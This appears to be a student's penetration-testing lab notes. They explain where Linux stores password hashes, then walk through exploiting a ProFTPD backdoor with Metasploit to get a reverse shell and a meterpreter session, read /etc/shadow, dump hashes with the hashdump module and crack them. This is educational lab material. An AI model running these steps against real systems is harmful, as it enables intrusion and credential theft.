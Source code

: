 # Dumping Linux Passwort Hashes


## Linux Password Hashes
- Linux has multi-user support and as a result, multiple users can access the system simultaneously. This can be seen as both an advantage and disadvantage from a security perspective, in that, multiple accounts offer multiple access vectors for attackers and therefore increase the overall risk of the server.
- All of the information for all accounts on Linux is stored in the passwd file located in /etc/passwd
- We cannot view the passwords for the users in the passwd file because they are encrypted and the passwd file is readable by any user on the systen.
- All the encrypted passwords for the users are stored in the shadow file. It can be found in the following directory: /etc/shadow
- The shadow file can only be accessed and read by the root account, this is a very important security feature as it prevents other accounts on the system from accessing the hashed passwords.

  - The passwd file gives us information in regards to the hashing algorithm that is being used and the password hash, this is very helpful as we are able to determine the type of hashing algorithm that is being used and its strength. We can determine this by looking at the number after the username encapsulated by the dollar symbol ($)

![image](https://github.com/user-attachments/assets/e49a471f-b98a-4efb-82d5-f2b74c1a8789)

## Demo: Linux Password Hashes

We first exploit the target:

`ifconfig, eth1`

`nmap -sV 192.209.144.3`

We check if this version of proftpd is vulnerable to a exploit:

`searchsploit PROFTPD`

We got a Backdoor Command Execution module

`service postgresql start && msfconsole`

`setg rhosts 192.209.144.3`

`set lhost [ownIP]`

`set payload payload/cmd/unix/reverse`

`search proftpd`

We want the proftpd_133c_backdoor:

use [module name]

`show options`

`exploit`

We get a command shell session:

`/bin/bash -i`

`id`

We put this session in the background: CTRL + Z

`yes`

`sessions`

We upgrade our session to a meterpreter session:

`sessions -u 1`

we get a error, but thats fine

`sessions`

`sysinfo`

`getuid`

We have successfully obtained a meterpreter session.

`cat etc/shadow/`

Another technique is the metasploit hashdump module.

CTRL + Z to put the session in the background

`search hashdump`

We copy post/linux/gather/hashdump

`use post/linux/gather/hashdump`

`set SESSION 2` (our meterpreter session)

`run`

This will get the user accs that have passwords and gives us the hashed passwords and saves them. 

Cracking hashed password:

`use auxiliary/analyze/crack_linux`

`set SHA512 true`

`run`



